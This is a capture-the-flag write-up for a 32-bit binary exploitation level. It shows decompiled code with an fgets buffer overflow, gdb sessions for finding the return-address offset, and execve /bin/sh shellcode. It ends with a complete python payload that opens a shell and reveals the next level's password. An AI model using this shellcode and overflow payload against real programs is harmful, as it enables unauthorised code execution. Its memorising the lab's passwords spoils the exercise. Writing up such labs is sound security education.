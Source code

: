 # Level 01
*password : uSq2ehEGT6c9S24zbshexZQBXUGrncxn5sD5QfGL*

## Analyze
```
scp -P 4242 level01@192.168.56.109:level01 binary/
```

- name = `dat_wil`
- `verify_user_name()` check only the 7 first characters

Interesting part :
```
char pass_input[16];
...
fgets(pass_input, 100, stdin);
```
**exploit** : `fgets` read 100 characters and store them in a buffer of size 16.\

## Buffer overflow : fgets exploit
**objective** : overflow pass_input to execute a shellcode

shellcode : `\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80`
- `pass_input` is too small for the shellcode, so let's use `use a_user_name`
```
(gdb) b verify_user_name
Breakpoint 1 at 0x8048469
(gdb) run
Starting program: /home/users/level01/level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil

Breakpoint 1, 0x08048469 in verify_user_name ()
(gdb) x/x $eax
0x804a040 <a_user_name>:        0x5f746164
```
- address of `a_user_name + 7` : 0x0804a040 + 7 = 0x0804a047

---
### Compute offset

```
b *main+176
Breakpoint 1 at 0x8048580
(gdb) run
Starting program: /home/users/level01/level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password: 
AAAAAAAAAAAAAAA

Breakpoint 1, 0x08048580 in main ()
(gdb) i f
Stack level 0, frame at 0xffffd710:
 eip = 0x8048580 in main; saved eip 0xf7e45513
 Arglist at 0xffffd708, args: 
 Locals at 0xffffd708, Previous frame's sp is 0xffffd710
 Saved registers:
  ebx at 0xffffd700, ebp at 0xffffd708, edi at 0xffffd704, eip at 0xffffd70c
(gdb) x/x $eax
0xffffd6bc:     0x41414141
```
- eip at 0xffffd70c
- buffer at 0xffffd6bc

`0xffffd70c - 0xffffd6bc = 50` (80 in decimal)

---
- eip offset found : 80

```
$ python -c 'print "dat_wil" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80" + "\n" + "\x42" * 80 + "\x47\xa0\x04\x08"' > /tmp/level1 ; cat /tmp/level1 - | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...


cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv

```
